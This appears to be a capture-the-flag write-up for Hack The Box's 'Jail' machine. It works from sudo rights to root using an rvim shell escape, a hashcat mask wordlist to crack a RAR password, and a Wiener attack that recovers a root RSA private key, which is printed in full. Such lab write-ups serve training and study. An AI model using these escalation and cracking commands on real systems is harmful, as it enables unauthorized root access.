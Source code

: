 # 25 - PrivEsc

```bash
[frank@localhost ~]$ sudo -l
Matching Defaults entries for frank on this host:
    !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS
    _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User frank may run the following commands on this host:
    (frank) NOPASSWD: /opt/logreader/logreader.sh
    (adm) NOPASSWD: /usr/bin/rvim /var/www/html/jailuser/dev/jail.c
```


# [rvim](https://gtfobins.github.io/gtfobins/rvim/)
```py
sudo -u adm /usr/bin/rvim /var/www/html/jailuser/dev/jail.c
:py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
```

# adm
```bash
sh-4.2$ id
uid=3(adm) gid=4(adm) groups=4(adm) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

# home directory of adm

![](vx_images/948426921259.png)

# Password protected keys.rar
![](vx_images/1320467687314.png)

# note.txt

![](vx_images/4696590869663.png)

# /var/adm/.keys/.local/.frank 
![](vx_images/1623821556305.png)


![](vx_images/547486917127.png)



Remember note.txt, Administrator reminds Frank about the pasword policy. His password must be his last name followed by 4 a digit number and a symbol. We don't know his last name yet.
Let's look up Alcatraz Escape because it is mentioned in .frank file.

# 1962 Alcatraz Escape
![](vx_images/2731109781454.png)

Frank Morris could be our user, in this case Morris would be the last name. We can try a custom wordlist with morris.

# Word generation with hashcat

```bash
┌─[user@parrot]─[10.10.14.12]─[~/htb/jail]
└──╼ $ hashcat -a 3 Morris?d?d?d?d?s --stdout > wordlist
```

* ?d = any digits
* ?s = any symbols


# Password found

![](vx_images/831010402994.png)



# Extract rootauthorizedsshkey.pub file from keys.rar
![](vx_images/2885908505509.png)


# RsaCtfTool Rsa Attack
```
┌─[user@parrot]─[10.10.14.12]─[/opt/RsaCtfTool]
└──╼ $ ./RsaCtfTool.py  --public ~/htb/jail/user/adm/rootauthorizedsshkey.pub  --private --attack wiener

[*] Testing key /home/user/htb/jail/user/adm/rootauthorizedsshkey.pub.
[*] Performing wiener attack on /home/user/htb/jail/user/adm/rootauthorizedsshkey.pub.
100%|█████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 611/611 [00:00<00:00, 3330.09it/s]
 24%|██████████████████████████████████▉                                                                                                                 | 144/611 [00:00<00:00, 10924.64it/s]
[*] Attack success with wiener method !

Results for /home/user/htb/jail/user/adm/rootauthorizedsshkey.pub:

Private key :
-----BEGIN RSA PRIVATE KEY-----
MIICOgIBAAKBgQYHLL65S3kVbhZ6kJnpf072YPH4Clvxj/41tzMVp/O3PCRVkDK/
CpfBCS5PQV+mAcghLpSzTnFUzs69Ys466M//DmcIo1pJGKy8LDrwdpsSjVmvSgg3
9nCoOYMiAUVF0T0c47eUCmBloX/K8QjId6PdD/qlaFM8B87MHZlW1fqe6QKBgQVY
7NdIxerjKu5eOsRE8HTDAw9BLYUyoYeAe4/wWt2/7A1Xgi5ckTFMG5EXhfv67GfC
FE3jCpn2sd5e6zqBoKlHwAk52w4jSihdzGAxI85LArqOGc6QoVPS7jx5h5bK/3Oq
m3siimo8O1BJ+mKGy9Owg9oZhBl28CfRyFuga99GCwIgCMdb8cTpq+uOUyIK2Jrg
PNxrCGF8HNhw8qT9jCez3aMCQQHBKGne1ibAwbqvPTd91cBUKfFYYIAY9a6/Iy56
XnGBS35kpKZB7j5dMZxxOwPDowgZr9aGNAzcFAeCaP5jj3DhAkEDb4p9D5gqgSOc
NXdU4KxzvZeBQn3IUyDbJ0J4pniHZzrYq9c6MiT1Z9KHfMkYGozyMd16Qyx4/Isf
bc51aYmHCQIgCMdb8cTpq+uOUyIK2JrgPNxrCGF8HNhw8qT9jCez3aMCIAjHW/HE
6avrjlMiCtia4DzcawhhfBzYcPKk/Ywns92jAkEBZ7eXqfWhxUbK7HsKf9IkmRRi
hxnHNiRzKhXgV4umYdzDsQ6dPPBnzzMWkB7SOE5rxabZzkAinHK3eZ3HsMsC8Q==
-----END RSA PRIVATE KEY-----
```


# Root
![](vx_images/5554808158894.png)